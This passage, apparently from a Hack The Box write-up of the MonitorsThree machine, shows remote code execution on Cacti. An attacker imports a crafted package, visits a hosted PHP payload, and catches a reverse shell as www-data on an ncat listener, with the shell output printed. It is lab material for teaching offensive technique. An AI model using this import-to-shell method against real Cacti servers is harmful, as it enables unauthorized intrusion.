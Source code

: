 Next, we upload the created gz file in the `Import Packages` section of cacti:
![poc-import](../assets/img/posts/htb-monitorsthree/poc-import.png)

As the PoC mentions, after importing, we need to visit the webpage where the payload is hosted for our reverse shell to execute and connect back to our listener:

```
http://cacti.monitorsthree.htb/cacti/resource/test.php
```

Check our listener and we have a shell as the www-data user on the target:
```shell
❯ sudo ncat -l $(bash ~/htb/code/scripts/htb_ip.sh) -nvp 4444
Password:
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.235:4444
Ncat: Connection from 10.129.231.115:52188.
bash: cannot set terminal process group (1092): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monitorsthree:~/html/cacti/resource$ whoami
whoami
www-data
```
